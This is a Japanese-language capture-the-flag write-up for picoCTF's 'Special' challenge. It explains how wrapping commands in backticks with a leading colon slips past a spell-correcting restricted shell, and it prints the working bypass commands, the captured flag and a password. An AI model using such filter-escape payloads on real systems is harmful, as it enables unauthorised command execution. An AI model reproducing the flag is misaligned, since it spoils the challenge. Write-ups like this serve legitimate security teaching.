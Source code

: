 #CTF #Linux #Shell

# Special Writeup

## 概要

本問題は、picoCTFの「Special」というチャレンジであり、入力された英単語を裏側で**自動的にスペル補正・正規化**するカスタムシェル（Special.py）を回避してフラグを取得する問題である。

## 環境挙動の観察

* 通常のコマンド（例: `ls`, `cat`, `set`）を入力すると、入力が人間向けの英単語に置換され、システムコマンドとして実行されない。

```
Special$ ls
Is
sh: 1: Is: not found

Special$ cat
Cat
sh: 1: Cat: not found
```

* バッククォート（`` `...` ``）や特殊文字を含む入力でも同様に変換が入るが、ある条件下で回避できることが確認できる。

## 回避手法

* 有効だった入力例：

```
Special$ `:`ls /
`:`ls /
# -> / の内容が表示される

Special$ `:`cat /challenge/metadata.json
`:`cat /challenge/metadata.json
# -> ファイル内容が表示される
```

* ポイントは `:`（コロン）を先頭に置き、かつバッククォートで囲む点である。

## 技術的考察（なぜ有効か）

1. [[null_command]]は POSIX シェルの**ビルトイン（組み込み）コマンド**であり、何もしない（常に成功を返す）コマンドとして定義されている。従って、Special.py 側の「単語置換ロジック」が `:` を修正対象外と扱う可能性が高い。

2. バッククォートはシェルでコマンド置換を行うため、Special.py が入出力文字列を修正する前に、バッククォートの中身がシステムシェル（`/bin/sh` 等）で解釈・実行されることで、補正を回避できる。

3. 実装上は、Special.py が先頭単語または先頭にあるアルファベット文字列のみを補正対象にしており、`:` のような記号を先頭に置くことで補正の適用範囲外にする工夫が働いていると推測される。

## フラグ取得例

```
Special$ `:`cat /challenge/metadata.json
`:`cat /challenge/metadata.json
{"flag": "picoCTF{5p311ch3ck_15_7h3_w0r57_b741d1b1}", "password": "483e80d4"}
```

* 取得したフラグ: `picoCTF{5p311ch3ck_15_7h3_w0r57_b741d1b1}`

## まとめと教訓

* 入力正規化（スペル補正）を行うインターフェースは、意図せぬ正規化漏れや正規化前後の不一致を突かれると脆弱性となり得る。
* シェルやWebアプリケーション設計においては、ユーザー入力の正規化ルールを明確化し、修正の影響範囲を最小化することが重要である。

---
